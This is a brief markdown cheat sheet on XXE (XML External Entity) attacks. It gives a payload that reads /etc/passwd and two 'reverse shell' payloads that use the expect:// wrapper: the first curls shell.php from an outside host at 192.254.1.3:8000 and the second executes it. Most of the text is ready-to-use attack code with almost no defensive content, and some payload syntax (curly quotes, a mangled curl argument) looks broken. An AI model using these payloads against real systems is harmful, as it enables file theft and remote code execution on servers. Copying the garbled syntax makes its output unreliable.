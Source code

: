 ## XXE Attacks
XXE (XML External Entity) attacks exploit weak XML parsers, potentially causing data leaks, denial of service, and more.
- Allows attacker to interfere with the processing of XML data
- can allows to view files on the server and to interact with the server, backend and external systems
- can be used to perform SSRF attacks (Server Side Request Forgery)
- popular recently affects applications that parse XML (SOAP)


### How it works
more Infos: [XXE Mitigation Guide](https://www.indusface.com/blog/how-to-identify-and-mitigate-xxe-vulnerability/)
```XML
<!-- in XML Tags can be named any way -->
<anything>content</anything>
```
We can attempt to read data from filesystem
```XML
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM “file:///etc/passwd”>
]>

<foo>&xxe;</foo>
```

### reverse shell with XXE
Curl the shell
```XML
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "expect://curl$IFS-0&IFS'192.254.1.3:8000/shell.php'"> ]>
<userInfo>
    <user>&xxe;</user>
</userInfo>
```
Execute the shell
```XML
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "expect://php$IFS'shell.php'"> ]>
<userInfo>
    <user>&xxe;</user>
</userInfo>
```
